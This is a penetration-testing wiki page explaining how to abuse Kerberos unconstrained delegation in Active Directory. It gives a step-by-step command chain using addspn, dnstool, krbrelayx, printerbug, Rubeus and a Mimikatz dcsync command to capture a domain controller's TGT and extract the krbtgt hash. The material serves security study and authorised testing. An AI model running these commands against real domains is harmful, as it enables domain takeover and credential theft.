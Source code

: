# (KUD) Unconstrained

## Theory

If an account (user or computer), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it (or [force it](../../mitm-and-coerced-authentications/)) using Kerberos. The attacker service will receive an ST (service ticket) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user. Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

{% hint style="warning" %}
If the coerced account is "[is sensitive and cannot be delegated](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts)" or a member of the "[Protected Users](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)" group, its TGT will not be delegated in the service ticket used for authentication against the attacker-controlled KUD account.

**Nota bene**: the native, RID 500, "Administrator" account doesn't benefit from that restriction, even if it's added to the Protected Users group (source: [sensepost.com](https://sensepost.com/blog/2023/protected-users-you-thought-you-were-safe-uh/)).
{% endhint %}

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with an [MS-RPRN abuse (printerbug)](../../mitm-and-coerced-authentications/ms-rprn.md), [MS-EFSR abuse (petitpotam)](../../mitm-and-coerced-authentications/ms-efsr.md), [MS-FSRVP abuse (shadowcoerce)](../../mitm-and-coerced-authentications/ms-fsrvp.md), r [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

![](../../../../.gitbook/assets/Kerberos\_delegations-unconstrained.drawio.png)

## Practice

{% tabs %}
{% tab title="From the attacker machine (UNIX-like)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs (i.e. of the compromised account) and add a DNS entry for that name.

This allows targets (e.g. Domain Controllers or Exchange servers) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 (by default), attackers will need to either supply the right AES256 key for the unconstrained delegations account (`--aesKey` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../../domain-settings/builtin-groups.md) (or any other user that has the needed privileges) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash (`-hashes` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments)
{% endhint %}

{% hint style="success" %}
By default, the salt is always

* **For users**: uppercase FQDN + case sensitive username = `DOMAIN.LOCALuser`
* **For computers**: uppercase FQDN + hardcoded `host` text + lowercase FQDN hostname without the trailing `$` = `DOMAIN.LOCALhostcomputer.domain.local`\
  `(using` DOMAIN.LOCAL\computer$ `account)`
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Check that the record was added successfully (after ~3 minutes)
nslookup attacker.DOMAIN_FQDN DomainController

# 4. Start the krbrelayx listener (the tool needs the right kerberos key to decrypt the ticket it will receive)
# 4.a. either specify the salt and password. krbrelayx will calculate the kerberos keys
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'
# 4.b. or supply the right Kerberos long-term key directly
krbrelayx.py -aesKey aes256-cts-hmac-sha1-96-VALUE

# 5. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
printerbug.py domain/'vuln_account$'@'DC_IP' -hashes LM:NT 'DomainController'

# 6. Check if it works. Krbrelayx should have received and decrypted a ticket, extracting the coerced principal's TGT.
# There should be a krbtgt ccache file in the current directory. And it can be used by
export KRB5CCNAME=`pwd`/'krbtgt.ccache'
```

{% hint style="warning" %}
In case, for some reason, attacking a Domain Controller doesn't work (i.e. error saying`Ciphertext integrity failed.`) try to attack others (if you're certain the credentials you supplied were correct). Some replication and propagation issues could get in the way.
{% endhint %}

Once the krbrelayx listener is ready, an [authentication coercion attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange), [PetitPotam](../../mitm-and-coerced-authentications/ms-efsr.md)) can be operated. The listener will then receive a Kerberos authentication, hence a ST, containing a TGT.

The TGT will then be usable with [Pass the Ticket](../ptt.md) (to act as the victim) or with [S4U2self abuse](s4u2self-abuse.md) (to obtain local admin privileges over the victim).
{% endtab %}

{% tab title="From the compromised computer (Windows)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used (on the compromised host) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.

```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)) can be operated. Rubeus will then receive an authentication (hence a Service Ticket, containing a TGT). The TGT can be used to request a Service Ticket for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

Once the TGT is injected, it can natively be used when accessing a service. For example, with [Mimikatz](https://github.com/gentilkiwi/mimikatz), to extract the `krbtgt` hash with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://stealthbits.com/blog/unconstrained-delegation-permissions/" %}

{% embed url="https://exploit.ph/user-constrained-delegation.html" %}

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" %}
